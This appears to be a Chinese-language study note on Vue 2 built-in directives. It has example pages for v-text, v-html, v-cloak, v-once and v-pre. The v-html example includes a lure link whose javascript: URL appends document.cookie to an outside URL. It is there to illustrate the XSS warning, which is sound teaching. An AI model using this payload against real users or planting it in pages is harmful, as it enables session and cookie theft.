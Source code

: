 ```yaml
---
title: 内置指令
date: 2022-08-17 17:24:25
permalink: /pages/8afcf6/
categories:
  - 编程世界
  - Vue-22年重学笔记
  - 基础知识
tags:
  -
titleTag: 原创
---
```


## ` 笔记 `

本文将笔记统一前置整理：

::: v-pre
我们学过的指令：

- `v-bind:` 单向绑定解析表达式，可简写为 `:xxx`
- `v-model:` 双向数据绑定
- `v-for:` 遍历数组/对象/字符串
- `v-on:` 绑定事件监听，可`简写为 @`
- `v-if:` 条件渲染(动态控制节点是否存在)
- `v-else:` 条件渲染(动态控制节点是否存在)
- `v-show:` 条件渲染(动态控制节点是否展示)
- `v-text` 指令：
  - 作用： 向其所在的节点中渲染文本内容
  - 与插值语法的区别：`v-text 会替换掉节点中的内容，{{xx}}则不会`
- `v-html` 指令：
  - 作用：向指定节点中渲染包含 html 结构的内容。
  - 与插值语法的区别：
    1.  `v-html 会替换掉节点中所有的内容，{{xx}}不会`
    2.  v-html 可以识别 html 结构
  - `严重注意：`v-html 有安全性问题！！！
    1.  在网站上动态渲染任意 html 是非常危险的，容易导致 XSS 攻击。
    2.  一定要在可信的内容上使用 v-html，永远不要在用户提交的内容上使用 v-html。
- `v-cloak` 指令(没有值)：
  - 本质上是一个特殊属性，Vue 示例创建完毕并接管容器后，会删掉 v-cloak 属性。
  - 使用 css 配合 v-cloak 可以解决网络慢时页面展示出{{xx}}插值语法的问题.
- `v-once`
  - v-once 所在节点在初次动态渲染后，就视为静态内容了。
  - 以后数据的改变不会引起 v-once 所在结构的更新，可以用于优化性能。
- `v-pre 指令：`
  - 跳过其所在节点的编译过程
  - 可利用它跳过：没有使用指令语法，没有使用插值语法的节点，会加快编译
  :::

## v-text 指令

### ` 代码 `

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>内置指令v-text</title>
    <script src="../js/vue.js"></script>
</head>
<body>

    <!-- 准备好一个容器 -->
    <div id="root">
        <div>你好，{{name}}</div>
        <div v-text="name"></div>
        <div v-text="str"></div>
    </div>

    <script type="text/javascript">
        Vue.config.productionTip = false; // 禁用提示
        new Vue({
            el: '#root',
            data: {
                name:'eryajf',
                str:'<h3>你好<h3>'
            }
        });
    </script>
</body>
</html>
```

## v-html 指令

### ` 代码 `

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>内置指令-v-html</title>
    <script src="../js/vue.js"></script>
</head>
<body>

    <!-- 准备好一个容器 -->
    <div id="root">
        <div>你好，{{name}}</div>
        <div v-text="str"></div>
        <div v-html="str2"></div>
    </div>

    <script type="text/javascript">
        Vue.config.productionTip = false; // 禁用提示
        new Vue({
            el: '#root',
            data: {
                name:'eryajf',
                str:'<h3>你好<h3>',
                str2:'<a href=javascript:location.href="http://www.baidu.com?"+document.cookie>兄弟我找到你想要的资源了，快来！</a>',
            }
        });
    </script>
</body>
</html>
```

## v-cloak 指令

### ` 代码 `

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>内置指令-v-cloak</title>
    <style>
        [v-cloak]{
            display: none;
        }
    </style>
</head>
<body>

    <!-- 准备好一个容器 -->
    <div id="root">
        <div v-cloak>{{name}}</div>
    </div>
    <script type="text/javascript" src="http://localhost:8080/resource/5s/vue.js"></script>
</body>

    <script type="text/javascript">
        console.log('1');
        Vue.config.productionTip = false; // 禁用提示
        new Vue({
            el: '#root',
            data: {
                name:'eryajf',
            }
        });
    </script>
</html>
```

## v-once 指令

### ` 代码 `

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>内置指令-v-once</title>
    <script src="../js/vue.js"></script>
</head>
<body>

    <!-- 准备好一个容器 -->
    <div id="root">
        <h2 v-once>原始的n值为:{{n}}</h2>
        <h2>当前的n值为:{{n}}</h2>
        <button @click="n++">点我给n加1</button>
    </div>

    <script type="text/javascript">
        Vue.config.productionTip = false; // 禁用提示
        new Vue({
            el: '#root',
            data: {
                n:1
            }
        });
    </script>
</body>
</html>
```

## v-pre 指令

### ` 代码 `

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>内置指令-v-pre</title>
    <script src="../js/vue.js"></script>
</head>
<body>

    <!-- 准备好一个容器 -->
    <div id="root">
        <h2 v-pre>Vue其实很简单</h2>
        <h2>当前的n值为:{{n}}</h2>
        <button @click="n++">点我给n加1</button>
    </div>

    <script type="text/javascript">
        Vue.config.productionTip = false; // 禁用提示
        new Vue({
            el: '#root',
            data: {
                n:1
            }
        });
    </script>
</body>
</html>
```
